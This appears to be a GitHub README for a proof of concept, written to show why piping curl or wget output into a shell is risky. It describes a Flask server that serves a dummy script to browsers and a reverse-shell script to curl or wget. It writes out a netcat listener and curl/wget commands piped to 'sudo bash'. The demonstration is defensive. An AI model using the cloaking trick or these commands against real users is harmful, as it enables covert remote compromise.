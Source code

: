 # piping-to-shell-PoC
Proof of Concept why piping from curl/wget to shell is asking for trouble. Flask is used as the web server and check if the user agent contains "Wget" or "curl". By default none of them mask the user-agent field. If the user agent is not wget/curl a dummy script is shown. Else, if bash is run as root a reverse shell will spawn.

## Demonstration
* First of all, setup the server.
	* `python3 server.py`
* Open a browser and access `/script.sh`. The dummy script should appear.
	* ![Browser](./images/browser_output.png)
* Open a new terminal and setup a listener for the reverse shell.
	* `nc -nvlp 5555`
* In a new terminal use wget or curl to download the file and pipe it to bash.
	* `wget -O- localhost:5000/script.sh | sudo bash`
	OR
	* `curl localhost:5000/script.sh | sudo bash `


## Remedy

Don't pipe into shell (especially using sudo) or at least curl/wget the file before executing it :). 
